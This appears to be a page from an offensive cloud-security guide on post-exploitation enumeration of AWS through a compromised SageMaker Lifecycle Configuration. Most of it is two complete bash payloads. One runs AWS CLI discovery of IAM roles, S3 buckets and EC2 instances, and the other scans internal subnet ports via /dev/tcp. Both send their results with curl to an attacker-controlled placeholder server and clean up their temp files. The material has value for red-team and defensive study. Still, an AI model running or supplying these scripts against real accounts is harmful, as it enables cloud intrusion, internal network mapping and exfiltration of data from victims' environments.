 # **AWS \- SageMaker Enumeration (Post-Exploitation)**

## **Enumeration via Lifecycle Configurations (LCCs)**

An attacker who has gained control over a SageMaker Lifecycle Configuration (LCC) can automate reconnaissance and enumeration of the AWS environment. The LCC script runs with the permissions of the instance's IAM role, allowing it to use tools like the AWS CLI or network scanners to gather information.

The output of these enumeration commands must be exfiltrated to be useful. This is typically done by piping the output to curl to POST it to an attacker-controlled server, or by writing the results to a file that is later exfiltrated (see the Post-Exploitation section for exfiltration techniques).

### **Cloud Infrastructure Enumeration**

An LCC can be used to run a sweep of discovery commands using the AWS CLI to understand what the compromised role has access to.

* Payload Example (AWS Resource Enumeration Script):  
  This script runs several aws commands to discover IAM roles, S3 buckets, and EC2 instances, then exfiltrates the collected data. The nohup command is used to ensure the script has time to complete.  

```bash
#!/bin/bash

# Attacker server for exfiltrating enumeration results
ATTACKER_SERVER="http://<ATTACKER_IP>:<PORT>/enum_results"

# Run enumeration in the background to avoid LCC timeout
nohup bash -c '

# Create a temporary file for results
RESULTS_FILE="/tmp/enum_data.txt"
echo "--- IAM Roles ---" > $RESULTS_FILE
aws iam list-roles --query "Roles[].Arn" >> $RESULTS_FILE 2>&1

echo "\n--- S3 Buckets ---" >> $RESULTS_FILE
aws s3 ls >> $RESULTS_FILE 2>&1

echo "\n--- EC2 Instances ---" >> $RESULTS_FILE
aws ec2 describe-instances --query "Reservations[].Instances[].InstanceId" >> $RESULTS_FILE 2>&1

# Exfiltrate the results
curl -s -X POST --data-binary @$RESULTS_FILE $ATTACKER_SERVER

# Clean up
rm -f $RESULTS_FILE

' &
```

### **Internal Network Reconnaissance**

If the SageMaker instance is deployed within a VPC, an LCC can be used to run a custom script to scan the internal network for other live hosts and open ports. This helps an attacker map the internal network for potential lateral movement targets without relying on pre-installed tools like nmap.

* Payload Example (Custom Bash Port Scanner):  
  This self-contained script iterates through a subnet and a list of common ports, using bash's built-in TCP functionality to check for open ports. The results are then exfiltrated.  


```bash
#!/bin/bash

# Attacker server and target network
ATTACKER_SERVER="http://<ATTACKER_IP>:<PORT>/scan_results"
TARGET_SUBNET_PREFIX="10.0.1" # Scans 10.0.1.1-254

# A list of common ports to check
PORTS_TO_SCAN="21 22 23 25 53 80 110 139 443 445 1433 1521 3306 3389 5432 5900 8080"

# Run the scanner in the background to avoid LCC timeout
nohup bash -c "

# Temporary file for results
RESULTS_FILE=\"/tmp/scan_results.txt\"

# Loop through hosts in the /24 subnet
for i in {1..254}; do
  IP=\"$TARGET_SUBNET_PREFIX.$i\"

  # Loop through ports
  for PORT in $PORTS_TO_SCAN; do
    # Check for open TCP port with a 1-second timeout
    (echo >/dev/tcp/\$IP/\$PORT) &>/dev/null && \
      echo \"[OPEN] \$IP:\$PORT\" >> \$RESULTS_FILE &
    sleep 0.01 # Small delay to avoid overwhelming the system
  done
done

# Wait for background jobs to finish
sleep 5

# Exfiltrate results if any were found
if [ -f \$RESULTS_FILE ]; then
  curl -s -X POST --data-binary @\$RESULTS_FILE \$ATTACKER_SERVER
  rm -f \$RESULTS_FILE
fi

" &
```
